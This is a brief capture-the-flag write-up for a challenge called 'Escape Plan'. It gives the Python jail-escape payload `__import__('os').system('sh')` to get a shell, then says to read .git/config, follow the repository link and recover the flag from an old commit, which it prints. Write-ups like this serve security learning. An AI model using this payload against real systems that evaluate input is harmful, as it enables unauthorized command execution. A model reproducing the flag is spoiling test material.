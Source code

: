 # Escape Plan

`__import__("os").system("sh")` -> read .git/config -> find repo link -> find flag in old commit

Flag: csictf{2077m4y32_h45_35c4p3d}
